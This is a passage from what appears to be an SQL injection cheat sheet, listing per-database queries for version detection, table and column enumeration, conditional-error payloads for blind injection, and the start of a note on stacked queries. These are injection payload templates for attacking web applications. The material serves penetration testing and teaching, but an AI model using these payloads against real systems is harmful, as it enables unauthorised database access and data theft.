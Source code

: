 * **MySQL**:
```
SELECT @@version
```

## Database Contents

* **Oracle**:
```
SELECT * FROM all_tables
SELECT * FROM all_tab_columns WHERE table_name = 'TABLENAME'
```

* **Microsoft**:
```
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```

* **PostgreSQL**:
```
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```

* **MySQL**:
```
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```

## Conditional Errors

* **Oracle**:
```
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual 
```

* **Microsoft**:
```
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END 
```

* **PostgreSQL**:
```
1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END)
```

* **MySQL**:
```
SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a') 
```

## Stacked Queries

We can use batched or stacked queries to execute multipels queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. This technique is primarily of use in realtion to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error or time delay.
